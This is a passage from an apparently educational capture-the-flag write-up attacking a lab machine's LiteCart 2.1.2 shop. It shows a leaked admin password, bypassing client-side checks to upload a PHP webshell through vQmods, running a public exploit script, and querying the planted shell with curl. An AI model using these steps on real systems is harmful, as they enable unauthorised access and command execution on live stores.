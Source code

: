 ```

root@kali# curl http://10.10.10.207/shop/admin/.log2301c9430d8593ae.txt
User: admin Passwd: theNextGenSt0r3!~

```

Logging in at `/shop/admin/login.php` with those creds works:

![image-20210116143434241](https://0xdfimages.gitlab.io/img/image-20210116143434241.png)

At the bottom, it identifies the LiteCart version, 2.1.2, which is the one with the upload vulnerability.

## Shell as mysql

### Exploit

The exploit is a pretty simple upload vulnerability, where a PHP file can be uploaded using the vQmods interface in LiteCart. I’ll log into the admin interface at `/shop/admin` like above, and at the very bottom of the menu on the left is “vQmods”, which leads to this page:

![image-20210119084339587](https://0xdfimages.gitlab.io/img/image-20210119084339587.png)

There’s client-side filtering requiring a file with a `.xml` extension, but I can catch the request in Burp (or use the exploit script to bypass client-side filtering) and change the file name to `.php`, and the file will upload.

### Exploit Troubleshooting

I’ll use the exploit script from here out, but it would be just as easy to do things manually. Running the exploit from `searchsploit` doesn’t completely work, returning an empty line where the output should be:

```

root@kali# python 45267.py -t http://10.10.10.207/shop/admin/ -u admin -p 'theNextGenSt0r3!~' 
Shell => http://10.10.10.207/shop/admin/../vqmod/xml/S59WW.php?c=id

```

The exploit is nice enough to give me the address of the webshell, and visiting it returns an empty page:

```

root@kali# curl -v 'http://10.10.10.207/shop/admin/../vqmod/xml/S59WW.php?c=id'
*   Trying 10.10.10.207:80...
* Connected to 10.10.10.207 (10.10.10.207) port 80 (#0)
> GET /shop/vqmod/xml/S59WW.php?c=id HTTP/1.1
> Host: 10.10.10.207
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Date: Sat, 16 Jan 2021 20:00:20 GMT
< Server: Apache/2.4.29 (Ubuntu)
< Content-Length: 0
< Content-Type: text/html; charset=UTF-8
< 
* Connection #0 to host 10.10.10.207 left intact

```
